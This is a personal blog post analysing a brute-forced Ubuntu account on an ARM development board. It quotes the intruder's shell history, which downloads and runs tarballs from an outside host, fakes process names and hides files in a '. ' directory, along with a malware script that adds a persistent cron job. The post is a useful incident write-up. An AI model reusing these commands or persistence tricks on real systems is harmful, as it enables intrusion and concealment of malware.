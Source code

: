 ```yaml
---
title:  Been HACKED!
date:   2013-09-07
categories: "Blah Blah"
---
```


Recently my Kayla development board cannot get correct DHCP address
for some reason. I sent an email to sysadmin. They replied that an
alert was triggered on their IDS and my board was believed has been
compromised, so they blocked it:

~~~
> 128.223.6.140 triggered alerts when it grabbed files from
> superuser.clan.su.  We have identified this type of activity as being
> similar to activity that occurred with a server, during that the same
> timeframe, that was confirmed as being successfully SSH brute
> forced.
>
> Based on the available data 128.223.6.140 likely has an account, with
> a weak password, that was successfully brute forced.
>
> Please block this system on the CIS network until the system
> administrator can investigate the issue.  If you are unable to block
> the system please update this ticket and I'll block the IP address on
> the campus network. IDS alert data is available below.  Timestamps
> are local TZ.
~~~

SH*T! Kayla comes with an factory default Ubuntu. There is a default
user `ubuntu` with password `ubuntu`, which is indeed **WEAK**. I am
aware of that but didn’t take it seriously: Kayla is just an embedded
system which contains no critical data, and I thought I won’t be so
unlucky to be the prey.

It turns out I was wrong.

Do tell your son the world is dangerous.

I am curious what has been done on Kayla. Looks like the hacker didn’t
bother to erase his footprint in `~/.bash_history`:

~~~
1399 w
1400 uptime
1401 cd /var/tmp
1402 ls -a
1403 mkdir ". "
1404 cd ". "
1405 wget superuser.clan.su/hu.tgz
1406 tar zxvf hu.tgz
1407 rm -rf hu.tgz
1408 cd .m
1409 ls
1410 nano zmeu.ini
1411 vi zmeu.ini
1412 ./autorun
1413 ./run
1414 uname -a
1415 cd ..
1416 rm -rf .m
1417 wget superuser.clan.su/miau.tgz
1418 tar zxvf miau.tgz
1419 rm -rfm i
1420 cd .us
1421 rm -rf miau.tgz
1422 cd .usr/
1423 ls
1424 vi miaurc
1425 ./h -s /usr/sbin/sshd ./init -d /var/tmp/". "/.usr
1426 cd ..
1427 ls -a
1428 rm -rf .usr/
1429 wget superuser.clan.su/psybnc-linuxRO.tgz
1430 tar zxvf psybnc-linuxRO.tgz
1431 rm -rf psybnc-linuxRO.tgz
1432 mv psybnc/ .p
1433 cd .p
1434 ls
1435 chmod 777 *
1436 chmod +X *
1437 ls
1438 ps x
1439 ps -aux
1440 mv ntpd lightdm
1441 ./lightdm
1442 uname -a
~~~

Hmmm... A directory named `. ` (dot space)? Interesting.

`zmeu.ini`? Google tells me `ZmEu` is an exploit scanner. I downloaded
the `hu.tgz`, unpacked and had a quick check:

~~~
$ file autorun
autorun: POSIX shell script, ASCII text executable
$ cat autorun
#!/bin/sh
pwd > zmeu.dir
dir=$(cat zmeu.dir)
echo "* * * * * $dir/update >/dev/null 2>&1" > zmeu.cron
crontab zmeu.cron
crontab -l | grep update
echo "#!/bin/sh
if test -r $dir/zmeu.pid; then
pid=\$(cat $dir/zmeu.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > update
chmod u+x update
~~~

OK, he installed a cron job.

~~~
ubuntu@kayla:~$ crontab -l
* * * * * /var/tmp/. /.m/update >/dev/null 2>&1
~~~

Now what’s in `./run`?

~~~
$ file run
run: POSIX shell script, ASCII text executable
$ cat run
#!/bin/sh
export PATH=.
-sh
$ file -- -sh
-sh: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
~~~

So he invoked a (most likely customized) shell, and what has been done
under this shell is unknown to me.

`miau.tgz`? Google says `miau` is an "IRC-bouncer/proxy". So the
hacker want some IRC bot? 1419~1422 looks like some typo to me. Don’t
panic, dude.

I am wandering what is `./h`. Luckily there is a `h.c` which I guess
is the source code for `./h` in the tarball.

~~~
$ file h
h: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.4.1, not stripped
$ head h.c
/*

psf -- Process Stack Faker (a.k.a. Fucker)
Coded by Stas; (C)opyLeft by SysD Destructive Labs, 1997-2003

Tested on: FreeBSD 4.3, Linux 2.4, NetBSD 1.5, Solaris 2.7

Compile with:
# gcc -O2 -o h h.c
# strip h
~~~

Good, typical hacker tool.

Next tarball is `psybnc-linuxRO.tgz` which turns out to be yet another
IRC bouncer. Why did he need two IRC bouncer? I doubt I can figure out
the reason.

OH BOY! WAIT! DID I MENTION THAT KAYLA IS AN ARM BASED SYSTEM?

~~~
ubuntu@kayla:~$ uname -a
Linux kayla 3.1.10-carma #1 SMP PREEMPT Wed Jul 10 12:53:50 CEST 2013 armv7l armv7l armv7l GNU/Linux
~~~

All the binaries the hacker downloaded in the tarball are for Intel x86!

I believe this is what the hacker was thinking about when he saw the
output of `uname -a` (line 1442):

> WTF!!!

This makes me feel much better :D
